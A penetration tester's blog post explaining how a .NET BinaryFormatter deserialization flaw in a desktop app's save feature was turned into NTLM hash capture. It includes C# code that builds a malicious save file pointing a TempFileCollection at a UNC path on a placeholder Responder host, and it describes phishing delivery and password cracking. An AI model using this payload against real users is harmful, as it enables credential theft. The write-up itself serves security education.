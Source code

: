 ```yaml
---
layout: post
title: .NET Deserialization to NTLM Hashes
tags: [.net, deserialization, vulnerability, ntlm, pentest]
---
```

During a recent penetration test, we came across a interesting technique we used to get admin credentials (well, NTLM hashes which were then cracked). There is nothing particularly new or novel about this attack, and it requires specific requirements to be useful, but we thought it was interesting enough to share. A blog post on a very similar technique was posted recently by Gianluca Baldi on the [mediaservice.net blog](https://techblog.mediaservice.net/2018/02/from-xml-external-entity-to-ntlm-domain-hashes/) and we found we were able to do something very similar but with a .net deserialization vulnerability rather than XXE.

This specific vulnerability is triggered when a user loads a malicious file, so user interaction is required, however a similar vulnerability could exist in applications accessible over the network. It all depends on where data is deserialized.

## Deserialization Basics
Deserialization is something that anyone that does a lot of thick application or web application security testing should be familiar with. Usually discussed in the context of Java, deserialization vulnerabilities are something that could be present in many applications, including .NET apps.

For those not so familiar with the idea, serialization is the process of translating objects into a format that can be stored or transmitted ([https://en.wikipedia.org/wiki/Serialization](https://en.wikipedia.org/wiki/Serialization)). Deserialization is the opposite; taking a stream of bytes and turning them into an object that can be used by the application. Why might this be useful? Often this can be for RPC where two applications (maybe on different hosts) can communicate. It's also fairly common when the state of an application needs to be saved. In this case the serialized data is written to disk and later restored.

We can see this in action with the example below.

```csharp
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;

namespace serialisationTest1
{
    [Serializable]
    class MyClass
    {
        private int x = 1;
        private int y = 2;
        public string s = "Hello World";
        public MyClass() { Console.WriteLine("In Constructor"); }
        public void Method() { Console.WriteLine("Method()"); }
        public void Dispose()
        {
            Console.WriteLine("Disposing Object");
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            BinaryFormatter binaryFormatter = new BinaryFormatter();
            MyClass myClass = new MyClass();
            using (FileStream fileStream = File.OpenWrite("save"))
            {
                binaryFormatter.Serialize(fileStream, myClass);
            }
        }
    }
}
```

This creates a file, save, which we can view in a text editor.

![](/assets/img/2018-04-22-net-deserialization-to-ntlm-hashes/1.png)

This can sometimes be exploited by an attacker when the application deserializes untrusted data. If we look at the deserialized object above, it should be obvious that whilst we cannot directly inject code into the application, we may be able to do something useful (i.e. malicious) if the object we're deserializing does something in it's constructor or in it's dispose method - a method that is called by the Garbage Collector when a .NET object is destroyed. This is because the object does actually get created and destroyed when a deserialization attempt is made, even if the object can't be used because it's the wrong type.

## The Vulnerability
During our test, we found that desktops had a .NET application installed. While we can't go into detail about the nature of the application, we can say it had a "save" feature. To save, the app took a specific object and serialized it to disk. It could then load this save by doing the opposite. It would take the saved object and deserialize it.

The vulnerable code is similar to below:

```csharp
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;

namespace serialisationTest1
{
    class Program
    {
        static void Main(string[] args)
        {
            string saveFile = "save";
            MyClass myClass = null;
            BinaryFormatter binaryFormatter = new BinaryFormatter();
            FileStream fileStream = File.OpenRead(saveFile);
            try {
                Object o = binaryFormatter.Deserialize(fileStream);
                myClass = (MyClass)o;
                myClass.Method();
            }
            catch (Exception) { }
        }
    }
}
```

As stated before, in this specific case, we need to find an object that does something useful when it's created or destroyed.

`System.CodeDom.Compiler.TempFileCollection` is an object in .NET that deletes a file which has been added with it's `AddFile` method. This was proven by creating a file in a specific location (`d:\file1`), and using the serialized `TempFileCollection` as the application "save" file. The deserialzed object was created with the following code snippet:

```csharp
static void Main(string[] args)
{
    BinaryFormatter binaryFormatter = new BinaryFormatter();
    TempFileCollection tempFileCollection = new TempFileCollection();
    tempFileCollection.AddFile("d:\\test",false);
    using (FileStream fileStream = File.OpenWrite("save"))
    {
    binaryFormatter.Serialize(fileStream, tempFileCollection);
    }
}
```

When we loaded the save file, the application deserialized the object did indeed delete the test file. This is a nice proof of concept, but can we take it further?

## Getting Credentials
At this point, we have an application that has a deserialization vulnerability that gets triggered when a save file is opened and an object we can deserialize that deletes a file we can specify. Is it possible to go from this to something more useful? This step should be quite familiar to anyone with penetration testing experience.

Windows will attempt to authenticate with a server if a file is is read from a UNC path (i.e. `\\host\file`). If we change the file that is deleted to a UNC path on a server with Responder running, we'll be able to capture the NTLM handshake an attempt to crack the password.

The following .NET code generates our payload:

```csharp
static public void MakeObject()
{
    BinaryFormatter binaryFormatter = new BinaryFormatter();
    TempFileCollection tempFileCollection = new TempFileCollection();
    tempFileCollection.AddFile("\\\\<responderIP>\\test", false);
    using (FileStream fileStream = File.OpenWrite("save"))
    {
    binaryFormatter.Serialize(fileStream, tempFileCollection);
    }
}
```

We then ran Responder, sent the file to the user (via a phishing attack) and waited. Lo and behold, after a little while we had the hashes we could then use for cracking.

![](/assets/img/2018-04-22-net-deserialization-to-ntlm-hashes/2.jpg)

With a good dictionary, a poor password policy and a bit of time, we were successful in cracking the password.
